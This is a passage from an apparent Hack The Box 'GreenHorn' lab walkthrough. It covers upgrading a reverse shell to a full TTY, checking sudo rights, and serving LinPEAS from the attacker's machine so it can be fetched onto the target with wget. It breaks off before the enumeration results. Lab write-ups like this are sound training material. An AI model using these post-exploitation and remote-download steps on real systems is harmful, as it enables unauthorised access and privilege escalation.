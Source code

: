 And just like that we're junior (Don't reuse passwords!)

## Root Escalation

Let's upgrade this disgusting shell. Typing `which python3` tells us python3 is available on this box. We'll use the following commands to upgrade our terminal

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

After spawning the TTY, press Ctrl+Z tp background the shell & in the local terminal, run

```bash
stty raw -echo;fg
```

Once back in the remoter shell, run

```bash
reset
```

Set up the terminal

```bash
export TERM=xterm
```

Now we have a fully interactive shell with auto tab completion, command history and the ability to actually hit backspace

As always let's run sudo -l

![Sudo -l](/assets/images/HTB%20-%20Greenhorn/sudo%20l.png)

User junior `may not run sudo on greenhorn`

We'll have to try something else. Let's get [LinPeas](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) going and see what we can find

First host the file

```bash
python3 -m http.server 9001
```

wget / curl the request (on the GreenHorn Box)

```bash
wget http://10.10.14.36:9001/linpeas.sh
```

Now we'll run Linpeas and check the results
